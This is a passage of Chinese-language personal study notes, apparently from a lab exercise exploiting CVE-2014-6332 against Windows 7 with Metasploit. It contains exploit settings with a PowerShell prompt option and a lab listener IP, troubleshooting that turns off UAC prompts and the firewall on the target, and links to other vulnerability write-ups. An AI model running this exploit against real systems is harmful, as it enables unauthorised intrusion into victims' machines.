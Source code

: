 ```bash
set AllowPowershellPrompt true
set SRVHOST 172.16.1.110
set LHOST 172.16.1.110
exploit
```



🌟 **问题1:** 在执行的过程中，遇到Windows7出现：

<img src="/CVE-2014-6332/9.png" alt="image-20230601164710842" style="zoom:67%;" />

**解决方案1：**开始--->控制面板--->用户账户--->更改用户帐户控制设置--->从不通知。





🌟 **问题2:** 上述报错没有了，但是没有攻击成功，没有弹出窗口。

**解决方案1:** 关闭防火墙。又报错



### 待看

safari加了很多链接



## 其它漏洞



* CVE-2013-1347

https://securityintelligence.com/cve-2013-1347-microsoft-internet-explorer-cgenericelement-object-use-after-free-vulnerability/





* 杂教程

https://fuzzysecurity.com/tutorials.html

https://mp.weixin.qq.com/s/GWjCUidztHhOg4yCmEwlHg